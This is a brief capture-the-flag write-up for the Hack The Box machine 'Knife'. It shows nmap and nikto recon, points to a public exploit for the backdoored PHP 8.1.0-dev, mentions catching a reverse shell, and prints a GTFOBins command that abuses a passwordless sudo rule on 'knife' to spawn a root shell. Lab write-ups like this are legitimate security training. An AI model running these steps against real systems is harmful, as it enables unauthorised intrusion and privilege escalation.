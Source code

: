 +++ 
title = "Knife HTB Write up"
description = "Write up for the HTB machine 'Knife'"
author = "greatmoves"
tags = ["php", "sudo -l", "gtfobins", "hackthebox", "linux"]
date = 2023-03-01
+++
- [1. Recon](#1-recon)
  - [1.1. nmap](#11-nmap)
  - [1.2. nikto](#12-nikto)
- [2. Privilege escalation](#2-privilege-escalation)

## 1. Recon
----
### 1.1. nmap
A simple nmap scan: `nmap -sC -sV {target-ip}` reveals port 22-ssh and port 80-http.

### 1.2. nikto
A nikto scan using the command `nikto -host {target-ip}` reveals that the web application is using `PHP/8.1.0-dev`.

A quick google search of this PHP version shows us a Backdoor Remote Code Execution script found at:
https://github.com/flast101/php-8.1.0-dev-backdoor-rce

Run the script along with a netcat listener and catch your reverse shell!

Navigate to /home/james for user.txt.

## 2. Privilege escalation
----
As our user let's see if there's anything they are able to run as root using the command `sudo -l`

which reveals:
```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Looking up "knife" on https://gtfobins.github.io/ we find the command `sudo knife exec -E 'exec "/bin/sh"'`, so let's run it.

root :)

Navigate to /root for root.txt